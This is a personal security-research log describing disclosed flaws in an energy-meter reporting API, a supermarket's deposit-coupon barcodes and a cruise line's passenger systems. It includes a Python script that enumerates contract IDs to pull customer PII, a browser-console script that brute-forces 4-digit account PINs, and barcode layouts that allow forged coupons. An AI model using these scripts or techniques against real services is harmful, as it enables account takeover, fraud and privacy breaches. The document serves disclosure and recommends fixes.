



SECURITY RESEARCH
INTRO
I'm not a professional full-time security researcher. This section will just function as a log around security and privacy issues I discover in applications and services I use in my day-to-day life.
Unfortunately none of the affected companies had any Vulnerability Disclosure Program (VDP) in place, so contacting the right department or person wasn't always easy.
[2022] Energy Meter: reporting API leaking PII
In 2022, I discovered a data privacy issue with an energy meter API leaking PII, when I received the yearly email that asked me to report the current meter values for my apartment online, as shown below.

The API to report the meter (type: EMH eHZ IW8) values is used to report the meter values, but also returns historic meter values from past years as well as some PII like name, postal address and email address of the customer, to then be displayed on the website.

The API was not protected with a username/password but simply with with the combination of meter ID (8-digit number) and contract ID (10-digit number). When you live in a multi-family house, you can easily get the meter ID of your neighbors by just looking at the meters next to yours, see photo below.

The API request sequence was as follows:
Use the meter ID and contract ID to request a token:
POST https://api.redacted.de/grid-devicemanagement/zseservice/v1/identification
Headers
Ocp-Apim-Subscription-Key: ***********
Payload:
{"MeterId":"21175639","ContractAccountNo":"8743122875"}
The response would then contain a token to be used in subsequent requests:
{
"token": "e410805a-****-****-****-************",
"allowedNotificationTypes": [1,4,2],
"isOnline": true
}
GET https://api.redacted.de/grid-devicemanagement/zseservice/v1/meterinfo?_=1658482150376
Authorization: Bearer e410805a-****-****-****-************
Ocp-Apim-Subscription-Key: ***********
{
"meters": [
{
"registers": [
{
"registerId": "001",
"historicalReadings": [
{
"readingReason": "01",
"readingValue": 15519.0,
"readingDate": "2022-05-17T00:00:00"
},
{
"readingReason": "01",
"readingValue": 13193.0,
"readingDate": "2021-05-19T00:00:00"
},
{
"readingReason": "01",
"readingValue": 10880.0,
"readingDate": "2020-05-25T00:00:00"
},
{
"readingReason": "01",
"readingValue": 9041.0,
"readingDate": "2019-06-13T00:00:00"
},
{
"readingReason": "06",
"readingValue": 8056.0,
"readingDate": "2019-01-01T00:00:00"
}
],
"digitsLeftToDecimalPoint": 6,
"digitsRightToDecimalPoint": 0,
"obisCode": "1-1:1.8.0",
"obisCodeDisplay": "1.8.0",
"registerType": "NZ",
"feedingRegister": false,
"billableRegister": true,
"useReadingDate": false,
"unit": "KWH",
"contracts": [
{
"contractAccountNo": "8743122875",
"startDate": "2019-01-01T00:00:00",
"endDate": "9999-12-31T00:00:00",
"supplierName": " ENERGIE BADEN-WÜRTTEMBERG"
}
]
}
],
"division": "POWER",
"meterId": "21175639",
"meterStartDate": "2016-01-01T00:00:00",
"meterIdDisplay": "21175639",
"materialId": "ISEW071",
"equipmentId": "808141352",
"lockBillingReason": "00",
"readingUnit": "JX0612AA",
"allowedNotificationTypes": [1,4,2]
}
],
"address": {
"city": "Stuttgart",
"district": "Vaihingen",
"postalCodeCity": "70569",
"street": "Meluner Str.",
"houseNumber": "2"
},
"contact": {
"title": "Herr",
"firstName": "Mathias",
"lastName": "Conradt",
"email": "mathias.conradt@******.com",
"notificationType": 1
},
"contactContractAccount": {
"title": "Herr",
"firstName": "Mathias",
"lastName": "Conradt",
"email": "mathias.conradt@******.com"
}
}
$ nmap -sCV -T5 -p80,443 api.redacted.de
Starting Nmap 7.92 ( https://nmap.org )
Nmap scan report for api.redacted.de (xxx.xxx.xxx.xxx)
Host is up (0.00011s latency).
PORT STATE SERVICE VERSION
80/tcp open upnp Microsoft IIS httpd
|_http-title: Site doesn't have a title (application/json).
443/tcp open ssl/upnp Microsoft IIS httpd
|_ssl-date: 2022-07-31T12:43:28+00:00; 0s from scanner time.
|_http-title: Site doesn't have a title (application/json).
| ssl-cert: Subject: commonName=*.redacted.de/organizationName=Redacted
GmbH/stateOrProvinceName=Baden-W\xC3\xBCrttemberg/countryName=DE
| Subject Alternative Name: DNS:*.redacted.de, DNS:redacted.de
| Not valid before: 2022-06-14T00:00:00
|_Not valid after: 2023-06-19T23:59:59
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.69 seconds
import requests
# {"MeterId":"21175639","ContractAccountNo":"8743122875"}
url = 'https://api.redacted.de/grid-devicemanagement/zseservice/v1/identification'
user_agent = "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:99.0) Gecko/20100101 Synedrion/1.2"
headers = { "User-Agent": user_agent, "Content-Type": "application/json", "Ocp-Apim-Subscription-Key":
"*********************" }
found = False
contract_account_no = 8743121971
while not(found):
contract_account_no = contract_account_no + 1
print(contract_account_no)
json = {"MeterId":"21175637", "ContractAccountNo": str(contract_account_no)}
resp = requests.post(url = url, json = json, headers = headers)
if (resp.json().get('token')):
found = True
token = resp.json().get('token')
print(token)
url = 'https://api.redacted.de/grid-devicemanagement/zseservice/v1/meterinfo'
headers = { "Authorization": "Bearer " + token, "User-Agent": user_agent, "Content-Type": "application/json",
"Ocp-Apim-Subscription-Key": "*********************" }
resp = requests.get(url = url, headers = headers)
print(resp.json())
[2020] Supermarket: system misconfiguration with bottle vending machine and self-service counters
In 2020, I discovered and reported this flaw at a supermarket, where they have a bottle vending machine (Tomra) as well as self-service checkout counters.
When returning bottles, you'll get a coupon with a barcode to use at the checkout counter to get the deposit back.


By accident I noticed that if you didn't throw away the coupon - as it would be the case at the regular, non-self-service counters - but re-scan it again a few days later, it would get accepted. In this case, I had put the coupon back in my shopping basket and next time wasn't sure if I'd already used that coupon already.
This was obviously a system misconfiguration in combination with the self-service checkout process, for not checking against already used codes. Notably: re-scanning would only work after 1-2 days after, not right away.
This led me further to check if actually any code would get accepted, not just the ones issues by the vending machine.
Analyzing the barcode (EAN_8 format) pattern (example: 21054189283920032102250000) with a couple of more coupons and barcodes collected, I noticed a pattern when breaking down the digit blocks:
21054189283920032102250000 -> 2105418 (Shop Number) 9283 (Coupon Id) 920 (Fixed Value) 0321 (Date) 0225 (Amount) 0000 (Product Id optional)
Knowing this pattern, it turned out that the checkout counters would accept any barcode created with a barcode generator apps with adjusted coupon id and any amount, potentially causing financial damage.
Once reported, they changed the system configuration and now, coupons only get accepted once and also only valid coupons that have actually been issues by the vending machine.
(PoC provided)
[2019] Cruise Line: leaking passengers' PII
As a frequent cruise traveller, I found a few data privacy as well as security issues. I have been on a total of 10 cruise trips. The following issues came to my attention and can lead to potential:
- exposure of complete passenger list (names)
- compromised passenger board accounts & potential financial damage for customers
In general, there are issues of passenger name (and cabin number) being exposed to the public. This will also lead to security issues as documented below. Furthermore, I’ll show a way to get the list of all passenger names.
Name tags on suit cases
The cruise line provides its passengers with name tags that hold full name and cabin number, which are to be attached to checked luggage and brought up to the cabin door BUT put outside the cabin in the hallway. This way, everybody can know passenger name and cabin number.


Cabin info at cabin doors
Cabin mail is put at the cabin door outside. This can also be read by anybody passing by. The mail includes passenger name and cabin number.


Receipts
Bar receipts also contain passenger full name and cabin number, and are often exposed on the bar counter.


Photo stations
The photo station is also a data privacy leakage point. While it doesn’t reveal cabin numbers, it can be used to obtain a list of all passenger names. This is how:
I checked the barcode on the passenger board card of the past two trips, both mine and the ones of my accompanying person. The barcode used on the board card is an ITF barcode, holding a 16 digit long number.
I found a specific pattern. The last 2 digits remain fix (01, maybe a passenger classification), so do the first 10 digits (during one trip).
This means, among passengers, only digits 11-14 differ.
(Digits 8-10 differ between different trips, but are the same for all passengers on one particular trip).

Sample barcode values:
9841000184696401
9841000184510901
9841000207233101
9841000207385301
Breaking down 9841000184696401 into multiple digit blocks:
9841000 (Quasi fix number) 184 (Internal Trip ID) 6964 (Passenger ID) 01 (Passenger Classification)
Knowing this pattern, you can get a barcode generator app like Barcode Generator, generate ITF barcodes counting up from 0000 to 9999 and replace the digits 11-14 (passenger ID) of your own barcode number with those. The Android app generates barcode right on screen, which you can then use with the photo stations.
The problem within the photo stations is, that they don’t ask you to slide in the card to read the magnetic stripe, but just have an optical reader to scan the barcode.


This means, instead of showing your own boarding card, you could just as well show the generated barcode on the Barcode Generator app.


Once successfully scanned, the photo station would show an avatar with the user name on screen.

Although time consuming, this is a way to get a list of all passenger names on board.
It should also be noted that it can cause financial damage to a passenger when photos are being ordered under his name, without him knowing and eventually not even noticed on the invoice at checkout.
Provided Recommendations
- Don’t print full name on tags/receipts. Just use firname and first letter if needed at all (Mathias C. / 6444) or masking ((Ma***** C****** / 6444), or even better, complete tokenization
- Use unique alpha-numberic keys on the barcodes, not easily guessable sequences
[2019] Cruise Line: passengers board account take-over
The data privacy issues documented above show how easy it was to get passenger names and cabin number. With this comes a major security issue, allowing to take over other passengers' onboard accounts.
The passenger board login for the passenger's onboard account system is based on passenger last name, cabin number and a 4-digit pin.
First of all, a 4-digit PIN is not very secure. Furthermore, there seems to be no brute-force protection in place. When I mistyped my PIN multiple times, my account was neither locked nor were there any rate limits.
This led me to the assumption that the accounts, with the knowledge of a passenger’s lastname and cabin number can be easily brute-forced by testing for all PIN combinations 0000-9999.
Once a passenger account is compromised, one could financially damage a customer by placing orders on his behalf, such as buying and using internet plans (worth up to 119,90 EUR). Furthermore, personal information like the cruise line's club class, purchase history, can be accessed.

The PoC code below, run in the browser’s developer console, could achieve this:
var lastName = 'Conradt';
var cabin = '6444';
var pinCode = 0 * 1000;
var pinCodeStr = '';
var pinCodeEnd = 9999;
var found = false;
document.forms[0].elements[4].value = cabin;
document.forms[0].elements[5].value = lastName;
var test2 = function() {
if ((document.documentElement.textContent ||
document.document.innerText).indexOf('fehlgeschlagen') > -1
&& document.getElementsByClassName('fancybox-overlay')[0]) {
console.log('Incorrect: ' + pinCodeStr);
document.getElementsByClassName('btn btn-block btn-primary btn-lg')[1].click();
}
pinCode++;
}
var test = function() {
pinCodeStr = pinCode + '';
while (pinCodeStr.length<4) pinCodeStr='0' + pinCodeStr;
document.forms[0].elements[6].value=pinCodeStr;
document.forms[0].elements[7].click();
setTimeout(test2, 4000);
if (!found && pinCode <=pinCodeEnd) setTimeout(test, 6000);
}
window.onbeforeunload=function (e) {
console.log('====> Correct: ' + pinCodeStr);
alert('====> Correct: ' + pinCodeStr);
};
setTimeout(test, 6000);
Provided Recommendations
- use stronger passwords
- enable brute-force protection, lock accounts (to be unlocked via reception)
- don’t use subsequent numbers for PINS for a passenger and accompanying person